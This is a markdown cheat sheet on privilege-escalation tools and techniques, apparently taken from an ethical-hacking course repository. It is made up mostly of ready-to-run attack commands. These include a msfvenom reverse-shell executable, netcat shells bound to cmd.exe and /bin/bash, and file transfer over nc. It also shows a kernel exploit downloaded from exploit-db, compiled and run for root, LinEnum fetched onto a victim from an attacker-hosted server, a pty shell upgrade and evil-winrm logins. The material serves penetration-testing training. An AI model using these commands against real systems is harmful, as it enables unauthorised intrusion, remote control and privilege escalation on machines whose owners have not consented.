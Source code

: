 ```yaml
---
title: Privilege Escalation Tools and Techniques
summary: Understand Privilege Escalation and use of tools
description: Understand Privilege Escalation and use of tools
slug: '/privilege-escalation-tool-and-techniques'
tags: ['privilege escalation', 'penetration testing', 'ethical hacking']
draft: true
---
```


## Reverse Shell

Take advantage of the target system's vulnerabilities to initiate a shell session.

```bash
# Listener is attacker
msfvenom -p windows/shell_reverse_tcp LHOST=<listener-ip-addr> LPORT=<listener-port> -f exe > shell-x64.exe

nc -lvp <listener-port>

# Now, after you download and run the app. We get the access to victim's shell.
```

### WinPEAS

```powershell
WinPEASx65.exe systeminfo log=systeminfo.txt # Privilege Escalation
```

### netcat

#### Windows

```powershell
ncat.exe -lp 52000 # Start listening at port 52000

netstat -an | more

ncat.exe -lp 55555 > alice.txt # If file doesn't exist it will be created else cleared and redirected.
ncat.exe -lp 55555 >> alice.txt # Append in a file instead.

ncat.exe -lp 10314 -e cmd.exe # -e is executable i.e. cmd.exe

ncat.exe <target-linux-ip-addr> 14618 # Bash shell from Linux
```

#### Linux

```bash
nc <target-windows-ip-addr> 52000 # Linux

nc -w 1 <target-windows-ip-addr> 5555 < bob.txt # Send content of the bob.txt file.
# If the connection and stdin are idle for more than timeout seconds, the connection is closed silently.
# Default is no timeout. `nc` will listen forever for a connection, with or without the -w flag.

nc <target-windows-ip-addr> 10314 # Windows prompt from Linux

nc -lp 14618 -e /bin/bash # bash as executable.
```

> Note: `>` is output redirection character, `<` is input redirection character.

## exploit-db.com

Based on Linux kernal, VulnOS -> `37292`

```bash
whoami

wget https://www.exploit-db.com/exploits/44298 -O exploit.c

gcc exploit.c -o exploit
chmod 777 exploit
./exploit

whoami
```

## LinEnum

```bash
# Attacker Server
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O LinEnum # or Copy RAW to to LinEnum file.

chmod +x LinEnum

python -m http.server 8000 # Serving http server to host a file to download.

# Victim Client
wget http://<attacker-ip-addr>:8000/LinEnum

./LinEnum
```

## Gobuster - Directory Traversal

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u <target-ip-addr>
```

## Spawning Bash Shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")' # Pseudo-terminal utilities
```

## Window Remote Management (WinRM)

```bash
evil-winrm -i <target-windows-ip-addr> -u 'admin' -p 'pass'
```

## Reference

- https://github.com/ec-council-learning/Pentesting-Fundamentals-for-Beginners
